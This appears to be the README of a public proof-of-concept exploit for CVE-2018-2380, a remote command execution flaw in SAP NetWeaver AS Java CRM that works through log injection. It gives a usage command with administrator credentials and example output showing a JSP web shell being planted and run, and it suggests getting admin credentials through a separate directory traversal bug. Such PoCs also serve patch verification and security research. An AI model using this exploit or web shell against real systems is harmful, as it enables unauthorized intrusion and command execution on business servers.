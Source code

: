 # CVE-2018-2380 (CVSS v3 Base Score: 6.6/10)
PoC of Remote Command Execution via Log injection on SAP NetWeaver AS JAVA CRM
Script usage example 
```
python crm_rce-CVE-2018-2380.py --host 127.0.0.1 --port 50001 --username administrator --password 123QWEasd --SID DM0 --ssl true
```

Where
--host is a SAP server IP
--port SAP NetWeaver AS Java port
username and password of SAP administrator you can get using SAP Redwood directory traversal vulnerability. 


example script usage output
```
C:\exploits\SAP>crm_rce-CVE-2018-2380.py --host 127.0.0.1 --port 50001 --username administrator --password 123QWEasd --SID DM0 --ssl true

 _______  _______  _______  _______  _______  _______  _
(  ____ \(  ____ )(  ____ )(  ____ \(  ____ \(  ___  )( (    /|
| (    \/| (    )|| (    )|| (    \/| (    \/| (   ) ||  \  ( |
| (__    | (____)|| (____)|| (_____ | |      | (___) ||   \ | |
|  __)   |     __)|  _____)(_____  )| |      |  ___  || (\ \) |
| (      | (\ (   | (            ) || |      | (   ) || | \   |
| (____/\| ) \ \__| )      /\____) || (____/\| )   ( || )  \  |
(_______/|/   \__/|/       \_______)(_______/|/     \||/    )_)
Vahagn @vah_13 Vardanian
Bob @NewFranny
Mathieu @gelim
CVE-2018-2380


[!] Try to get RCE using log injection
[!] Get j_salt token for requests
[!] Login to the SAP portal
[!] Change log path
[!] Upload "Runtime.getRuntime().exec(request.getParameter("cmd")) " shell to https://127.0.0.1:50001/ERPScan_shell_31275.0.jsp?cmd=ipconfig
[!] Restore logs path to ./default_log_name.log
[!] Enjoy!

C:\exploits\SAP>
```
